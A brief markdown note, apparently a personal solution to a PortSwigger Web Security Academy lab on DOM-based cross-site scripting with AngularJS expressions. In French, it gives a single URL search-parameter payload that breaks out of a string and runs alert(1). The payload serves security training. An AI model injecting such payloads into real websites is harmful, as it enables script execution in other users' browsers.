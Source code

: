 # Lab

https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression

## Payload

Dans l'url : `/?search=\"};alert(1);//`